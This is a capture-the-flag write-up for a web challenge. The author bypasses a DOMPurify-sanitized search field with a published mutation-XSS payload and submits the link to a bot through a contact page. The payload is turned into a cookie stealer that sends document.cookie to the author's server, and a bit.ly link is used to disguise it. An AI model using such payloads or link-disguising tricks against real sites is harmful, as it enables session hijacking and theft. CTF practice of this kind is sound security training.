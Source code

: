 # Purr-Purr

```
Якщо ви читали "Мистецтво обману" Кевіна Митника, то знаєте яка найбільша вразливість у кібербезпеці.
```

After following the [link](https://purr-purr.ua30ctf.org/) we get the landing page with a frog Mike

![Mike](./images/landing_page.png)

The first strange thing i noticed that search button is blocked by the image so i guessed that the exploitation would be related to this. 

After exploring a little bit we can also find the contact button that leads to _/contact.php_ endpoint where we can submit a link to someone, very interesting.

![Contact](./images/contact.png)

Also in the source code we can see __DOMpurify.min.js__ file. For now just taking notes.

So if we can submit a url to someone that will read it, the first thing that comes to mind is vulnerable xss page with attacker's payload, so let's try it with search functionality.

![XSS](./images/xss.png)

![Filtered](./images/filter.png)

It got completely filtered out. And when we look at the source code we can se __DOMpurify.sanitize__ in action.

The code responsible for that:

```javascript
var searchinput = getURLParameter('searchinput');
// If we have search query
if (searchinput != null && searchinput != "") {

    // You shall not pass
    var clean = DOMPurify.sanitize(searchinput);
    $("#current_search").html(clean);
    //alert(searchinput);
    //alert(clean);
```

I tried several more payloads to see how it behaves but only several html injection payloads seemed to work that would not lead to any vulnerability. So i started to google about DOMPurify bypass and found an [article](http://sergeykish.com/dompurify-bypass). 

I use firefox so i decided to try the first payload.

```javascript
<form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>
```

Now that we have XSS let's modify the payload to steal the cookie of whoever reads our url after the sumbition on the contact page.

```javascript
<form><math><mtext></form><form><mglyph><style></math><img src onerror=window.location.href='http://10.110.0.5:8000?cookie='+document.cookie>
```

Where 10.110.0.3:8000 - our server. I used php, but you could use anything else such as python's module http.server

```
[GMtranscendence] $ php -S 0.0.0.0:8000
[Fri Apr 28 20:11:28 2023] PHP 8.2.5 Development Server (http://0.0.0.0:8000) started
```

And we try to submit the following url that is automatically url encoded after we use the search functionality

```javascript
https://purr-purr.ua30ctf.org/search.php?searchinput=%3Cform%3E%3Cmath%3E%3Cmtext%3E%3C%2Fform%3E%3Cform%3E%3Cmglyph%3E%3Cstyle%3E%3C%2Fmath%3E%3Cimg+src+onerror%3Dwindow.location.href%3D%27http%3A%2F%2F10.110.0.5%3A8000%3Fcookie%3D%27%2Bdocument.cookie%3E
```

![Submit](./images/xss_submit.png)

After that we can see the response 

![Response](./images/response.png)

Oh no, our link is too suspicious. Let's try to obfuscate it by shortening via bitly.com

```
https://bit.ly/3HpwYFH
```

![Submit](./images/xss2_submit.png)

And submit it again with fingers crossed.

```
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 [404]: GET /?cookie=FLAG=ctf%7BEnjoy_The_Silence_aGSKrC7dGcY%7D - No such file or directory
[Sat Apr 29 10:29:47 2023] 10.123.45.101:42188 Closing
```

We got our flag in a request!

## ctf{Enjoy_The_Silence_aGSKrC7dGcY}











